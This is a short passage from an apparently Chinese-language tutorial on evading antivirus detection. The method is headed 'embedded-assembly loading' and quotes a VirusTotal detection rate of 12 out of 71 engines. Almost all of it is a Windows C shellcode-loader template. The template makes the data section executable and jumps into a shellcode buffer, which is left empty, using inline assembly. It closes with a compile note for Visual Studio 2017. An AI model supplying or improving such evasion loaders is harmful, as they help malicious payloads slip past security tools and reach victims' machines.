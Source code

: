 ![03945fb747e01b2472ba1acf4cfd7cfb](images/2020.03-bypass-03/14.png)

## 2.3 方法3:嵌入汇编加载(VT免杀率12/71)

```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{

	    __asm
    {

        mov eax, offset shellcode
        jmp eax

    }
}
```
在vs2017中编译执行
